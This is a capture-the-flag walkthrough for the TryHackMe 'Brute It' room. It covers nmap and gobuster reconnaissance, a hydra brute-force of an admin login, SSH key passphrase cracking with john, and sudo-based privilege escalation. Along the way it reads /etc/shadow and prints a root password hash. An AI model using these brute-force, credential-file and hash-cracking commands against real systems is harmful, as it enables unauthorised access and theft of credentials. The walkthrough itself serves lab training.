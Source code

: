 # [Brute it](https://tryhackme.com/room/bruteit)

> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Challenge Name | Brute It |
| Difficulty | Easy |
| Tags | security, brute-force, hash cracking, priv-esc|

---
```
$IP = Machine_IP
```
## Recon:
- In the recon we need to map the network (using nmap) to understand what exactly we're attacking and what services  we can exploit or in this case what can we brute force in order to gain access.

```
nmap -p- -sV -T4 $IP

Nmap scan report for MACHINE_IP
Host is up (0.13s latency).
Not shown: 65501 closed ports, 32 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Flags Used:
- `-p-`  to scan for every port
- `-sV` to get service versions
- `-T4` for the highest threads so we scan a lot faster

We can see the http service running which is a web server running on port `80` which is the default for the http service, when you see a web server running the first thing you do is directory bruteforcing to see if there is any hidden directories or files, you can use tools like: dirb, dirbuster, ffuf, gobuster.

I like to use gobuster so thats what am going to use to get any directory or file.

```
gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt

/admin                (Status: 301) [Size: 314] [--> http://$IP/admin/]
```

Flags Used:
- `-u` for the website link
- `-w` for the wordlist

we found an admin page lets head there and see what we have, this is where we attack we can see a login page for the admin always open the source code to see whats going on on that page, suprisingly enough we found the username in a comment.

`<!-- Hey john, if you do not remember, the username is admin -->`

## Gaining Access:
now we just need to bruteforce for the password using a tool called `hydra`
the http-form syntax is annoying to write but you will always find resources online

as we can see in the form in the /admin page source code the params are:
```
the username: name="user"
the password: name="pass"

params: name=&pass=

and we need the error message as well, enter anything and try to login doing that will give as the error message which is "Username or password invalid"
```

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz $IP http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```

Output:
`[80][http-post-form] host: MACHINE_IP   login: admin   password: `

the password is removed so you can try it by yourself.

By logging in we will find the Web flag and an RSA  Private Key
so we can have access to ssh and gain a shell on the machine but not yet! 

- we need to get the passphase of the RSA Private Key by using a really famous cracking tool called john the ripper.

first we need to get the `id_rsa` hash by using `ssh2john` its in `/usr/share/john/ssh2john.py` by default.

`sudo python /usr/share/john/ssh2john.py id_rsa > hash`

now lets crack the hash using john:
unzip rockyou first using this command :`gzip -d rockyou.txt.gz`

`john --wordlist=/usr/share/wordlists/rockyou.txt hash`

now that we have the passphase for the private key lets connect to ssh:

if you can remember the comment from the source code had a name which is `john` that would be a possible username.

`ssh -i id_rsa john@$IP`

now we gained access !!! :)
`cat user.txt` to get the user flag


## Privilege Escalation:
When you need to escalate your privilege first thing you do is finding a binary or a writeable file that is owned by the root user aka the super user.

first command you do is `sudo -l`

we already see a binary called `cat` lets go and search for an exploit for it in [gtfobins](gtfobins.github.io) which is a something close to a database but for privilege escalation.

ok, the exploit for it is really easy you just need to use the cat command to read the root flag.

`sudo cat /root/root.txt`

now that we have the root flag the only thing left is the root password and the linux stores the passwords in a file called `/etc/shadow` and the usernames in `/etc/passwd`

lets do the samething we did to the root.txt
`sudo cat /etc/shadow` 

```
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
```

the hash starts with `$6$` which is a SHA512CRYPT, now i will use john to crack it but another choice would be hashcat.

put the root hash in a file than run john again.

`john -w=/usr/share/wordlists/rockyou.txt roothash`

That was the machine
Happy Hacking :)
